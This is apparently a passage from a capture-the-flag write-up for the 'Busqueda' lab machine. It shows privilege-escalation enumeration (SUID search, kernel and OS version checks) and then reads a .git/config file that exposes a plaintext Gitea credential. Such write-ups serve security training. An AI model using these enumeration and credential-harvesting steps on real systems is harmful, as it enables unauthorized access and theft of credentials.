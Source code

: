 ```bash
# search for SUID files
svc@busqueda:/var/www/app$ find / -perm -u=s 2>/dev/null
/usr/libexec/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/umount
<SNIP>
```

Check kernel and OS version:

```bash
# check kernel version
svc@busqueda:/var/www/app$ uname -a
Linux busqueda 5.15.0-69-generic #76-Ubuntu SMP Fri Mar 17 17:19:29 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux

# check OS version
svc@busqueda:/var/www/app$ cat  /etc/os-release
PRETTY_NAME="Ubuntu 22.04.2 LTS"
NAME="Ubuntu"
VERSION_ID="22.04"
VERSION="22.04.2 LTS (Jammy Jellyfish)"
VERSION_CODENAME=jammy
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=jammy
```

Search for sensitive data and config files:

```bash
svc@busqueda:/var/www/app$ ls -la
total 20
drwxr-xr-x 4 www-data www-data 4096 Apr  3  2023 .
drwxr-xr-x 4 root     root     4096 Apr  4  2023 ..
-rw-r--r-- 1 www-data www-data 1124 Dec  1  2022 app.py
drwxr-xr-x 8 www-data www-data 4096 Jan 30 06:28 .git
drwxr-xr-x 2 www-data www-data 4096 Dec  1  2022 templates

svc@busqueda:/var/www/app/.git$ cat .git/config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main
```
